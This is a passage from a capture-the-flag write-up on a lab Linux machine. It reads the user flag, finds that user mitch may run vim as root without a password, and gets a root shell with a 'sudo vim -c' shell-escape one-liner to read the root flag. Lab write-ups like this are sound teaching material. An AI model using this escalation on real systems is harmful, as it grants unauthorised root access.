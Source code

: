 ## Looking for the user flag
Finding the user flag and the names of other users was now quite straight forward.
```
$ls
user.txt
$ cat user.txt	
[REDACTED]
$ ls /home
mitch  [REDACTED]
```

## Looking for the root flag
Looking for the root flag would be trickier.
```
$ ls -al
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo

$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```
After running these commands we see that mitch can run Vim with root priveleges. After refering to [https://gtfobins.github.io/](https://gtfobins.github.io/) I found out how this can be exploited.

```
$ sudo vim -c ':!/bin/sh'


# ls /
bin    dev   initrd.img      lost+found  opt   run   srv  usr	   vmlinuz.old
boot   etc   initrd.img.old  media	 proc  sbin  sys  var
cdrom  home  lib	     mnt	 root  snap  tmp  vmlinuz
# ls root
ls: cannot access 'root': No such file or directory
# ls /root    
root.txt
# cat /root/root.txt
[REDACTED]
```

## Afterwards
